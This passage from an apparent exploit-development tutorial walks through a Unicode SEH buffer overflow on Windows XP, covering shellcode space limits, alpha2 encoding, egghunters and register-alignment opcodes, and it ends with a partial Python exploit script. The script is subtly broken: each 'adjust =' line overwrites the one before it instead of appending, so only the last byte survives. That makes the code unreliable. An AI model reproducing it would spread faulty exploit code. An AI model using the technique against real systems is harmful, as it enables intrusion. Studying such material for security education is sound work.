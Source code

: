[![](https://3.bp.blogspot.com/-pk5PmcQU3kY/UIxwGJHHm3I/AAAAAAAAADQ/XwDdW9MOr50/s0/Windows+XP+Professional+SP2+-+VMware+Player_012.png)](https://3.bp.blogspot.com/-pk5PmcQU3kY/UIxwGJHHm3I/AAAAAAAAADQ/XwDdW9MOr50/s0/Windows+XP+Professional+SP2+-+VMware+Player_012.png)

And then if we continue we see this:

[![](https://2.bp.blogspot.com/-Z0ygYNK9OY8/UIxwqyNnbvI/AAAAAAAAADY/ZqTBjLAvKbg/s0/Windows+XP+Professional+SP2+-+VMware+Player_013.png)](https://2.bp.blogspot.com/-Z0ygYNK9OY8/UIxwqyNnbvI/AAAAAAAAADY/ZqTBjLAvKbg/s0/Windows+XP+Professional+SP2+-+VMware+Player_013.png)

YAY :) So we look like we are getting there :)

### Adjusting Them Registerrrrs

However we see a small problem:

[![](https://1.bp.blogspot.com/-SDZJOHbdEJI/UIxzetFB-BI/AAAAAAAAADo/uUlFArqhsqs/s0/Windows+XP+Professional+SP2+-+VMware+Player_014.png)](https://1.bp.blogspot.com/-SDZJOHbdEJI/UIxzetFB-BI/AAAAAAAAADo/uUlFArqhsqs/s0/Windows+XP+Professional+SP2+-+VMware+Player_014.png)

We only have 38F bytes or 911/2 = 455.5 bytes for our shellcode.

Now you may think this is not a problem, however consider the following:

1.  We still need to encode our payload into Unicode. The additional instructions that will decode our payload from Unicode into the proper instructions that we want will take up extra space.
2.  In order for this Unicode decoder to work (we will be using alpha2) we need to point a register to the beginning of our shellcode. Atm most of our registers point to various locations within our buffer but not to the beginning of the buffer itself. However EBX seems to point to the beginning so we can use this. (Note if it didn't we would have to manually adjust it. You can see how to do this at [https://fuzzysecurity.com/tutorials/expDev/5.html](https://fuzzysecurity.com/tutorials/expDev/5.html) )

Which brings us to the problem of adjusting the registers so that one of our registers point to the beginning of our shellcode. We also realize that we are going to need an egghunter to find a full copy of our payload in memory that doesn't cross a memory border. This egghunter will also need to be encoded in Unicode in order for it to work properly.

adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
             # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....

Well when I say the beginning of the shellcode I really mean 12 bytes into the shellcode. Again this won't be repeated here but you can check this for yourself if you want. To account for this we will add in another section to accommodate  for this:

buffer = "\x62" \* 12

Our new exploit looks like this:

```python
#!/usr/bin/python
junk = "\x41" * 4078
nseh = "\x61\x62"
seh = "\xeb\x46" * 2
adjust = "\x53" # PUSH EBX
adjust = "\x62" # NOP padding to absorb the \x00's that will be added
                # after the \x53 instruction in memory
adjust = "\x58" # POP EAX  to make eax point to the beginning of our shellcode.
adjust = "\x62" # NOP padding
adjust = "\x50" # PUSH EAX to push eax to the stack...
adjust = "\x62" # NOP padding
adjust = "\xc3" # RETN to go to the beginning of the shellcode....
```